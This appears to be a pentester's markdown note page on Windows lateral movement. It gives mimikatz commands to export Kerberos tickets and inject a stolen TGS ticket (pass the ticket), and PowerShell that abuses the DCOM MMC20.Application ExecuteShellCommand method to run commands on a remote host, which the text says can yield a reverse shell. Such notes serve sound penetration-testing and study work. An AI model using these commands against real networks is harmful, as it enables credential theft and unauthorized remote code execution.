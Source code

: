 Use-case: *a TGS ticket is found on a device we have admin access to, but we want to import it into another device*.

With *Overpass the hash* we can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility. *Pass the ticket* allows us to export all tickets on a device and import it elsewhere


## Requirements
- admin access to a device 
## Process
1. Export all TGT/TGS tickets on a device we have admin access to
```mimikatz
sekurlsa::tickets /export
```
2. Import desired TGS ticket into a session
```mimikatz
kerberos::ptt <filename>.kirbi
```
Now we can access the resource TGS was meant for as the user the TGS ticket was issued for
## Monitor
#klist #kerberos #tickets
we can use `klist` to list available kerberos tickets for the current session


# DCOM
#dcom #com #common_object_model #distributed_common_object_model #executeshellcommand #document_activeview

[Cybereason article](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)
[Enigma0x3 article](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)

In this section, we will inspect a fairly recent lateral movement technique that exploits the Distributed Component Object Model ([DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx)) and learn how it can be abused for [lateral movement](https://attack.mitre.org/techniques/T1021/003/).

The discovered DCOM lateral movement technique is based on the Microsoft Management Console ([MMC](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/microsoft-management-console-start-page)) COM application that is employed for scripted automation of Windows systems.

The MMC Application Class allows the creation of [Application Objects](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/application-object?redirectedfrom=MSDN), which expose the `ExecuteShellCommand` method under the `Document.ActiveView` property. This method allows execution of any shell command as long as the authenticated user is authorized, which is the default for *local administrators*.

## Requirements


## Process
#reverse_shell #revsh #rev_shell
Create an instance of `MMC` on target device using DCOM and run a command against it. We can use this to get a reverse shell back. 
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1", "192.168.0.1"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
#                                              ^ command
#                                                   ^ directory
#                                                          ^ parameters
#                                                                    ^ WindowState
```